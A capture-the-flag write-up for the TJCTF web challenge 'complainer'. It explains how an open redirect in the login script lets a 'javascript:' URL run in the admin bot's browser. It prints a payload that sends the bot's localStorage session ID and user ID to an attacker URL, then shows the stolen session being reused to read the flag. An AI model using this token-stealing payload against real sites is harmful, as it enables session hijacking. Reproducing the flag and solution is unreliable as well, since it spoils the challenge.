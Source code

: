 # complainer

## Flag

tjctf{grrrrrrrrr_315b9c0f}

## Solution

On this web application the user can create posts called "complaints" containing some text which can be accessed on URL with the format `https://complainer.tjc.tf/post/POST_ID`.

In `server/public/login.js` we can see that while logging in the script fetches a session id and a user id.
Then, it stores them into the local storage of the browser:

```JavaScript
        localStorage.setItem('sessionId', res.sessionId);
        localStorage.setItem('userId', res.userId);
```

There is an open redirect vulnerability in the file `server/public/login.js`:

```JavaScript
function redirect() {
    if ('sessionId' in localStorage && 'userId' in localStorage)
        window.location = new URLSearchParams(window.location.search).get('next') ?? '/';
}
```

The challenge has an admin bot to which we can submit an URL starting with `https://complainer.tjc.tf`. The admin bot then creates an new account and stores the flag in a "complaint".
We create the payload `javascript:fetch('ATTACKER_URL?'+btoa(localStorage.getItem('userId')+' '+localStorage.getItem('sessionId')))` and then submit
the URL `https://complainer.tjc.tf/login?next=javascript%3Afetch('ATTACKER_URL%3F'%2Bbtoa(localStorage.getItem('userId')%2B'%20'%2BlocalStorage.getItem('sessionId')))` to the admin bot for getting the value of "userId" and "sessionId" in the
local storage of the browser. Then, we can see an HTTP request containing `NGI1Mzc2OTAtNzhmYy00MGM0LWIwM2UtOTNhYzk0NzM3MDk1IGFiMDA0NWQyLWU1MjQtNDU2ZS05MDg4LWRiMGQ5OGQwOTdlYw==` in the query parameters in the HTTP server logs.
We decode that base64 encoded string and get the value of "userId" and "sessionId".

Then, we set the values of "userId" and "sessionId" in the local storage of a local browser by using the developer tools to the values we obtained from the HTTP server logs.

We navigate to `https://complainer.tjc.tf/profile`, we can see that the browser makes a request to the `https://complainer.tjc.tf/api/profile` endpoint and the server responds with following JSON content which contains the flag.

```JSON
{"user":{"username":"a0f387bbe3b796002e7d4a01d5ea42b0","userId":"4b537690-78fc-40c4-b03e-93ac94737095","posts":[{"id":"1af1f8f1-05f4-448e-b5f6-e010b742ecb4","userId":"4b537690-78fc-40c4-b03e-93ac94737095","body":"tjctf{grrrrrrrrr_315b9c0f}"}]},"ok":true}
```
